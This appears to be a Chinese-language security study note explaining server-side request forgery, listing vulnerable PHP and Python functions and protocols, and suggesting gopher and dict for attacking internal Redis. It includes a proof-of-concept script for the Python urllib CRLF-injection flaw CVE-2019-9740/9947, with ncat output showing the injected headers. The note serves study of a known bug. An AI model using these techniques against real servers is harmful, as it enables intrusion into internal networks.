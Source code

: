 ## SSRF原理& 描述
服务端请求伪造是由攻击者发起、服务端发起请求的安全漏洞。

产生的原因是服务端从其他服务获取数据但是没有对地址和协议做过滤和限制。

分类：
- 回显型
- 非回显型



## 不同语言中的SSRF

### PHP
常见函数：
- cURL
- file_get_contents

支持协议：
- http、https、ftp、gopher、telnet、dict、file 和 ldap

最好的是gopher和dict，可用于攻击内网的redis。

### Python
常见函数：
- urllib/urllib2
- requests

#### [CVE-2019-9740/9947] urllib2 in Python 2.x through 2.7.16 and urllib in Python 3.x through 3.7.3
```py
import sys
import urllib2

host = "192.168.85.1:7777?a=1 HTTP/1.1\r\nCRLF-injection: test\r\nTEST: 123"
url = "http://" + host + ":8080/test/?test=a"

try:

	info = urllib2.urlopen(url).info()
	print(info)

except Exception as e:
	raise e
```
测试：
```
$ python2 --version
Python 2.7.15+
$ python2 ssrf.py
```
结果：
```
ncat -klvn 7777
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.85.129.
Ncat: Connection from 192.168.85.129:59862.
GET /?a=1 HTTP/1.1
CRLF-injection: test
TEST: 123:8080/test/?test=a HTTP/1.1
Accept-Encoding: identity
Host: 192.168.85.1:7777
Connection: close
```
